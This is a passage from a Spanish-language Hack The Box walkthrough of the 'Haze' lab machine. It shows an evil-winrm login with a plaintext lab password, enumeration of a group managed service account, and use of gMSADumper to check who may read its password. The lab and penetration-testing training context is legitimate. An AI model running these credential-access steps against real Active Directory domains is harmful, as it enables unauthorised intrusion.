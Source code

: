 ## Lateral Movement

### Remote Services

```terminal
/home/kali/Documents/htb/machines/haze:-$ evil-winrm -i 10.10.11.61 -u 'mark.adams' -p 'Ld@p_Auth_Sp1unk@2k24'

*Evil-WinRM* PS C:\Users\mark.adams\Documents> whoami
haze\mark.adams
```

Detecto que la cuenta `Haze-IT-Backup$`, pertenece a la clase de objetos [msDS-GroupManagedServiceAccount](https://www.thehacker.recipes/ad/movement/dacl/readgmsapassword#readgmsapassword), lo cual implica que su contraseña es gestionada automáticamente por el controlador de dominio y puede ser recuperada por usuarios autorizados.

```powershell
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount -Filter * | Select-Object Name, ObjectClass

Name           ObjectClass
----           -----------
Haze-IT-Backup msDS-GroupManagedServiceAccount
```

Al inspeccionar los permisos de recuperación de contraseña, definidos en el atributo `PrincipalsAllowedToRetrieveManagedPassword`. Identifico que únicamente el grupo `Domain Admins` posee autorización para acceder a la contraseña de la cuenta `Haze-IT-Backup$`.

```powershell
*Evil-WinRM* PS C:\Users\mark.adams\Documents> Get-ADServiceAccount -Identity "Haze-IT-Backup$" -Properties PrincipalsAllowedToRetrieveManagedPassword

DistinguishedName                          : CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
Enabled                                    : True
Name                                       : Haze-IT-Backup
ObjectClass                                : msDS-GroupManagedServiceAccount
ObjectGUID                                 : 66f8d593-2f0b-4a56-95b4-01b326c7a780
PrincipalsAllowedToRetrieveManagedPassword : {CN=Domain Admins,CN=Users,DC=haze,DC=htb}
SamAccountName                             : Haze-IT-Backup$
SID                                        : S-1-5-21-323145914-28650650-2368316563-1111
UserPrincipalName                          :
```

Corroboro esta configuración utilizando la herramienta [gMSADumper](https://github.com/micahvandeusen/gMSADumper), la cual extrae los blobs de contraseñas `gMSA` accesibles por el usuario autenticado. El resultado confirma que solo los `Domain Admins` están autorizados a leerla.

```terminal
/home/kali/Documents/Tools:-$ git clone https://github.com/micahvandeusen/gMSADumper.git

/home/kali/Documents/htb/machines/haze:-$ python3 /home/kali/Documents/Tools/gMSADumper/gMSADumper.py -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' -l dc01.haze.htb -d haze.htb
Users or groups who can read password for Haze-IT-Backup$:
 > Domain Admins
```
